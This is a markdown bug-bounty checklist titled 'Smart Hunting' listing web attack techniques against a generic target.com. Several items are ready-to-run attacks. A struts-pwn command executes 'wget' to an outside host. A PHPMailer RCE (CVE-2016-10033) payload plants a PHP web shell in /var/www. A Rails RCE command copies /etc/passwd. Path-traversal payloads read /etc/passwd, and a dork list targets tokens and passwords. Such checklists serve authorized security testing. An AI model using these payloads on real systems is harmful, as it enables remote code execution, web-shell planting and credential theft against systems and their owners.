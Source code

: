# Smart Hunting
## Bugs
- [ ] Add header in the proxy > Options (`X-Forwarded-Host: target.com`) - browse the program and then later click burp > search and try to find your `X-Forwarded-Host` value for web cache deception
- [ ] HTTP Request Smuggling
- [ ] Apply on .xhtml
- [ ] `Python struts-pwn.py -u http://target.com/orders.xhtml -c "wget http://ip:1337/test" --exploit`
- [ ] Test for Electronic Code Book (AAAAAAA aaaaaa BBBBB)
- [ ] `CVE-2016-10033`: PHPMailer RCE
email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"@127.0.0.1
subject: <?php system($_GET['c']);?>
- [ ] Change all request to `TRACE` method to disclose or access info
- [ ] `blc http://target.com -ro` (check for broken links)
- [ ] `targetname.atlassian.net`
- [ ] `jira.target.com`
- [ ] Vhost testing
- [ ] Test for bukets
- [ ] Check Github & dork list
(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,buket,GITHUB_TOKEN)
- [ ] `gau target.com`
- [ ] `waybackurls target.com`
- [ ] Accessing misconfigured data of an org: `https://storage.googleapis.com/<org-name>`
- [ ] Unauthorized access to org's google groups: `https://groups.google.com/a/<domain-name>`
- [ ] If running ruby on rails then: Accept: `../../../../../../../../etc/passwd{{`
- [ ] `CVE-2013-0156`: Rails Object Injection: ruby rails_rce.rb http://target.com 'cp /etc/passwd public/me.txt'
(https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
- [ ] `CVE-2019-11043`: Hint: PHP based website on NGINX phuip-fpizdam http://target.com/anyphpfile.php
- [ ] Check for CRLF Injection
- [ ] Bypass Open-Redirection protection
- [ ] Keyfinder
- [ ] Check email verification `admin@target.com`
- [ ] `target.com/home/....4....json` (Will disclose all the content of the home dir + sensitive info)
- [ ] `CVE-2019-19781`: Citrix NetScaler Directory Traversal: `curl -vk -path-as-is https://$TARGET/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "VULNERABLE: $TARGET" || echo "MITIGATED: $TARGET"`
- [ ] We can look for vulnerabilities such as SQLi, Path Traversal: `cat urls.txt | grep "?" | qsreplace ../../../../etc/passwd | ffuf -u 'FUZZ' -w - -mr '^root:'
`
### Blind XSS
- [ ] Blind XSS Payload in `User-Agent` header
- [ ] BXSS payload while logging (Enter the BXSS payload in forget pass, login, signup to generate errors)
- [ ] Use BXSS payload as your password
- [ ] etc ...
